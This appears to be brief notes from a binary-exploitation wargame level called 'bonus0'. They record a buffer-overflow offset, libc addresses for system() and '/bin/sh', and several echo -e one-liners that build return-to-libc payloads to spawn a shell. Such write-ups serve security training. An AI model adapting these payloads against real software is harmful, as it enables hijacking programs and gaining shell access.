 # bonus0

## Useful infos

first string: `AAAABBBBCCCCDDDDEEEE`
second string `11112222333344445555`
segfaults on call to `0x34333333` -> `111122223[3334]4445555`
address of system: `0xb7e6b060` -> `\x60\xb0\xe6\xb7`
address of "/bin/sh": `0xb7f8cc59` -> `\x59\xcc\xf8\xb7`

exploit: `echo -e "111122223\x60\xb0\xe6\xb74445555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb73\x60\xb0\xe6\xb7444555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7"`